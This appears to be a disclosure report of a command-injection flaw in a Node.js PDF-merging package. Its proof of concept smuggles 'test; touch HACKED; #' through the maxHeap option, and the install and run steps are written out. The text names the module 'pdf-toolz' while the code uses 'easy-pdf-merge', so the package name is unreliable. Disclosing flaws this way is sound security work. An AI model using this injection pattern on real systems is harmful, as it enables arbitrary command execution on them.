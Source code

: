# :bug: Description

The `pdf-toolz` module is vulnerable against `arbitrary command injection` due to the fact some `inputs` given by the `user` are unsafely processed and executed.

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const merge = require('easy-pdf-merge');

merge(["test", "test1"], "test2", {maxHeap:"test; touch HACKED; #"}, function(err){
  if(err) {
    return console.log(err)
  }
  console.log('Success')
});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i easy-pdf-merge # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
